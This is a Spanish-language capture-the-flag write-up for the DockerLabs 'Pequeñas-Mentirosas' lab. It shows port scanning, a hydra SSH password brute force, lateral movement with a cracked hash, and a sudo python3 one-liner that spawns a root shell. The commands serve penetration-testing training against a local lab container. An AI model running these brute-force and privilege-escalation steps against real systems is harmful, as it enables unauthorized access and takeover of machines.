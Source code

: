 ```yaml
---
title: DockerLabs - Pequeñas-Mentirosas
summary: "Write-up del laboratorio Pequeñas-Mentirosas de DockerLabs"
author: elcybercurioso
date: 2025-10-28 12:00
categories: [Post, DockerLabs]
tags: [fácil, weak credentiales, credentials leaking, sudo]
media_subpath: "/assets/img/posts/dockerlabs_pequenas_mentirosas"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 22:47 GMT
Initiating ARP Ping Scan at 22:47
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 22:47, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:47
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 22:47, 10.13s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -sCV -p22,80 172.17.0.2                                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 22:48 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```
## análisis

En la pagina inicial del puerto 80 de la maquina nos encontramos con el siguiente mensaje, el cual nos da una pista de que es lo que debemos buscar:

![Desktop View](/20251027234902.webp){: width="972" height="589" .shadow}

Lo primero que intentamos es ver si a lo que se refieren con la pista es que debemos buscar un parámetro que, si le pasamos el carácter `a`, obtendríamos un resultado que nos permitiría seguir. Sin embargo, nos damos cuenta de que este no es el caso.

Por ello, lo siguiente es ver si `a` se trata de un usuario o una contraseña de SSH, que en este caso encontramos que se trata de un usuario:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ hydra -l a -P /usr/share/seclists/Passwords/rockyou.txt ssh://172.17.0.2 -t 64 -I
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-27 22:53:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: a   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-27 22:53:51
```

Nos conectamos con las credenciales obtenidas:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ ssh a@172.17.0.2                                                     
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:k21i9gNka9bAHgFRx7TjoBoqirDbAkhw/dp9dfTXRRs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
a@172.17.0.2's password: 
Linux 94ac483a3277 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
a@94ac483a3277:~$ whoami
a
```

Buscamos los ficheros que somos capaces de leer con el usuario actual, filtrando por lo que no nos interesa. De esta manera, encontramos algunos ficheros interesantes en la carpeta `/srv/ftp`:

```bash
a@94ac483a3277:/home$ find / -readable 2>/dev/null | grep -vE '/usr/share/zone|/proc|/sys/devices|/usr/include|/usr|/dev|/etc|/sys|/var|/run'
/
/home
/home/a
/home/a/.profile
/home/a/.bash_logout
/home/a/.bashrc
/home/spencer
/home/spencer/.profile
/home/spencer/.bash_logout
/home/spencer/.bashrc
/opt
/opt/challenges
/opt/scripts
/boot
/media
/tmp
/mnt
/srv
/srv/ftp
/srv/ftp/pista_fuerza_bruta.txt
/srv/ftp/cifrado_aes.enc
/srv/ftp/clave_publica.pem
/srv/ftp/hash_a.txt
/srv/ftp/mensaje_hash.txt
/srv/ftp/original_a.txt
/srv/ftp/mensaje_rsa.enc
/srv/ftp/retos.txt
/srv/ftp/hash_spencer.txt
/srv/ftp/retos_asimetrico.txt
/srv/ftp/clave_privada.pem
/srv/ftp/clave_aes.txt
/bin
/lib64
/lib
/sbin
/.dockerenv
/lib32
```

Los revisamos todos, y el que parece que puede servirnos es el `/srv/ftp/hash_spencer.txt`, ya que si obtenemos la contraseña del usuario `spencer`, podemos movernos lateralmente:

```bash
a@94ac483a3277:/home$ cat /srv/ftp/pista_fuerza_bruta.txt
Realiza un ataque de fuerza bruta para descubrir la contraseña de spencer...
a@94ac483a3277:/home$ cat /srv/ftp/mensaje_hash.txt
Descubre el hash y tendrás la clave...
a@94ac483a3277:/home$ cat /srv/ftp/cifrado_aes.enc
�a@94ac483a3277:/home$ cat /srv/ftp/clave_publica.pem
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEArIk9pr+wSqiRQX/U29k0
kLYyLXlos5Phs7WyZK9LfDz/uBOCTBhBTMGjK5Op21Z9pszXJ6mgoreF/AW+xjTn
XDCh16kaIcACmp1nFOLn09snpk2s1h4cVJygGZmkHQg5rNMPdfn0rRmmnvgGCmim
oaubWuXYLn4Tu8GdRyAAj4P9hkZUMAQu9k1SpLRSIyVlcSisK/vBys8O05rZsZOg
0I7u2d+BuRYA8Px0qnxH1evx+Y3+oerN4823T6Vd+FqmfEHb7QUQ0EAZfJN3CFth
k9z7Q+AODqM5l8kYH2tEXk3xKQPo5qZlc6ep1tIHTERk3m0xEtE8LH157mkzbeli
VQIDAQAB
-----END PUBLIC KEY-----
a@94ac483a3277:/home$ cat /srv/ftp/hash_spencer.txt
7c6a****************************
```

Accedemos a [crackstation.net](https://crackstation.net) para ver si el hash pertenece a una contraseña conocida:

![Desktop View](/20251028000253.webp){: width="972" height="589" .shadow}

Con la credencial recién obtenida, probamos a conectarnos como `spencer`:

```bash
a@94ac483a3277:/home$ su spencer
Password: 
spencer@94ac483a3277:/home$ whoami
spencer
```

## escalada de privilegios

Revisamos los permisos SUDO del usuario `spencer`, y vemos que podemos ejecutar `python3` como el usuario `root`:

```bash
spencer@94ac483a3277:/home$ sudo -l
Matching Defaults entries for spencer on 94ac483a3277:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on 94ac483a3277:
    (ALL) NOPASSWD: /usr/bin/python3
```

En [GTFOBins](https://gtfobins.github.io/gtfobins/python/#sudo) nos indican que podemos obtener una consola como el usuario `root` cuando tengamos permiso SUDO sobre `python`:

![Desktop View](/20251028000546.webp){: width="972" height="589" .shadow}

Ejecutamos el comando indicado, y ya tendríamos la consola como el usuario `root`:

```bash
spencer@94ac483a3277:/home$ sudo python3 -c 'import os; os.system("/bin/sh")'
# whoami
root
```